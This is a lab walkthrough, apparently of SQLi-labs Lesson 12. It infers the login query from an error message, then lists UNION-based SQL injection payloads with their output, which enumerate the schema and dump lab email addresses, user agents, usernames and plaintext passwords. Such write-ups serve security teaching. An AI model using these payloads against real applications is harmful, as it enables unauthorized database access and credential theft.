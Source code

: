 # Lesson-12

Error Based

When we try just `\` we get

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"\") and password=("") LIMIT 0,1' at line 1
```

So the query must be like

```sql
SELECT * FROM users where username=("$username") AND password=("$password") LIMIT 0,1;
```

So we have to use `")` to break the query

We use:

```sql
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database(); #

Your Password:emails,referers,uagents,users
```

So we try to get all the info from the tables using

First we get the column names

```
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='emails'; #

Your Password:id,email_id
```

2

```
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='referers'; #

Your Password:id,referer,ip_address
```

3

```
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='uagents'; #

Your Password:id,uagent,ip_address,username
```

4

```
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users'; #

Your Password:id,username,password
```

Now we can get all the data from these tables

From emails

```
1") union select group_concat(id),group_concat(email_id) from emails; #

Your Login name:1,2,3,4,5,6,7,8
Your Password:Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com
```

From referers :

```
1") union select group_concat(id),group_concat(ip_address) from referers; #

Your Login name:
Your Password:

!empty!
```

From uagents :

```
1") union select group_concat(id),group_concat(uagent) from uagents; #

Your Login name:1,2,3,4,5,6
Your Password:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0,0,0,0

1") union select group_concat(ip_address),group_concat(username) from uagents; #

Your Login name:172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1,172.17.0.1
Your Password:admin,admin,admin,admin,admin,admin
```

From users:

```
1") union select group_concat(id),group_concat(username) from users; #

Your Login name:1,2,3,4,5,6,7,8,9,10,11,12,14
Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4


1") union select group_concat(username),group_concat(password) from users; #

Your Login name:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
Your Password:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```

